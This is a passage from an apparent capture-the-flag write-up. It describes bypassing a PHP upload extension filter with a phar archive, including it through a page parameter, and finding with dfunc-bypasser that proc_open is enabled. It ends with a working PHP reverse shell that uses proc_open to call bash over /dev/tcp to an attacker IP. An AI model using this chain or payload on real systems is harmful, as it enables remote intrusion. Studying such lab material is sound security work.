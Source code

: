 <img width="742" height="257" alt="07 - index php" src="https://github.com/user-attachments/assets/79d74136-d1da-4a03-aec8-a191459c4893" />

Then analyzed checker.php file. It checks for extension and filters any known extension that can be malicious. Then creates a folder under the uploads folder using MD5 of timestamp and puts the file inside it. And after reading line by line and checking connectivity, it deletes the file.

<img width="1165" height="817" alt="08 - checker php" src="https://github.com/user-attachments/assets/7a1bb8de-614a-4940-a95b-7ab96437b1ec" />

<img width="1674" height="723" alt="09 - uploads" src="https://github.com/user-attachments/assets/653bda5e-6c73-46f2-83a4-59b4934abc44" />

It is filtering known extensions but there is no filter for phar extensions. [Phar](https://www.php.net/manual/en/intro.phar.php) is special format that can be used to include files inside compressed zip files (For example: include 'phar:///path/to/file.zip/file.php';).
But zip or other known extension are blocked. So I created a phpinfo() file and compressed the file with .mto extension.

<img width="1461" height="207" alt="10 - revshell" src="https://github.com/user-attachments/assets/fc1ddffe-9855-41ad-aa44-386c908e2334" />

I know that index.php includes files that are given with page parameter. So giving it a phar link reveals php info page.

<img width="1508" height="715" alt="11 - file" src="https://github.com/user-attachments/assets/f27d7187-8209-43b7-81b0-e4492a4c2177" />

I tested some reverse shells and it did not work. Then checking phpinfo page, I understood that some functions are disabled. So either I can check meanually or I can run [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser/blob/master/dfunc-bypasser.py) script to check if there is known function that is not excluded.

I first need to update dfunc-bypasser script to send requests with Special-Dev header.

<img width="669" height="80" alt="12 - function update dfunc" src="https://github.com/user-attachments/assets/f65e33cd-25be-4521-aca4-fd911cec0c08" />

Then running it revealed proc_open function is allowed, and it is malicious. It can be used to run shell commands. You can check out [documentation](https://www.php.net/manual/en/function.proc-open.php) for more information.

<img width="1377" height="469" alt="13 - proc open" src="https://github.com/user-attachments/assets/e38c1195-3701-472a-ba85-956aa6bf989c" />

## Exploitation
### Creating proc_open reverse shell
After learning proc_open is allowed, I created a reverse shell script as below:
```php
<?php
$descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.12/1234 0>&1'";
$proc = proc_open($cmd, $descspec, $pipes);
?>
```
